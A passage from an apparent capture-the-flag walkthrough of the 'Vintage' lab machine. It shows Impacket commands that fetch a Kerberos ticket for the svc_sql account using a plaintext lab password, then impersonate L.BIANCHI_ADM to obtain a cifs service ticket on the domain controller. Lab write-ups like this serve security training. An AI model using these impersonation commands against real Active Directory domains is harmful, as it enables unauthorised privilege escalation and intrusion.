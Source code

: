 ![](images/media/image28.png){width="4.312742782152231in"
height="1.753555336832896in"}

**R8.**

INFO: Get the ticket for this SVC

**RUN: impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip
dc01.vintage.htb**

**RUN: export KRB5CCNAME=svc_sql.ccache**

![](images/media/image29.png){width="3.0947867454068243in"
height="0.7085608048993876in"}

**R9.**

INFO: Impersonate L.BIANCHI_ADM user to **request cifs/dc01.vintage.htba
service ticket** for the service. After successfully obtaining the
ticket, you can use it to access the service.

**RUN: impacket-getST -spn \'cifs/dc01.vintage.htb\' -impersonate
L.BIANCHI_ADM -dc-ip 10.10.11.45 -k \'vintage.htb/svc_sql:Zer0the0ne\'**

![](images/media/image30.png){width="5.312796369203849in"
height="0.7872550306211723in"}
